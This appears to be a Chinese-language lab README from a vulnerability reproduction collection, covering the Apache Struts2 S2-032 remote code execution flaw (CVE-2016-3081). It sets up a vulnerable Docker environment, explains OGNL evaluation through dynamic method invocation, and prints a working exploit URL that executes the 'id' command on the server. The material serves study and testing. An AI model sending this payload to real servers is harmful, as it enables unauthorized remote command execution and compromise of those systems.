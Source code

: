 # S2-032 远程代码执行漏洞（CVE-2016-3081）

影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

漏洞详情:

 - https://cwiki.apache.org/confluence/display/WW/S2-032
 - https://www.cnblogs.com/mrchang/p/6501428.html

## 漏洞环境

执行如下命令启动struts2 2.3.28：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到默认页面。

## 漏洞复现

Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。

直接请求如下URL，即可执行`id`命令：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![](1.png)
